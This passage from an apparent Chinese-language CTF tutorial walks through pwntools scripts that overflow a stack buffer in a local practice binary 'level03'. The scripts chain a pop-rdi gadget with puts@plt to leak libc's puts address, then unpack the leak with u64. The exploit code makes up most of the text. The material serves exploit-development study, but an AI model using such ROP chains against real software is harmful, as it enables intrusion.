 ```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.sendline(payload)
o.interactive()
```

![image-20220318195648082](Self-help_Clown.assets/image-20220318195648082.png)

这一串乱码就是puts函数的真实地址, 需要把它接收过来, 然后从小端序转换为正常的顺序

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
# u64是解包操作就是将数据从小端序变为正常顺序, 是p64的反向操作, 32为下为u32
# 同时u64只能解8字节数据, 也就是大于或小于8字节都会报错, u32是4字节
# 一般真实地址只有6个字节, recv值接收6个字节
# ljust是为了和8字节对齐, 这样才能解包
print hex(puts_addr)
o.interactive()
```
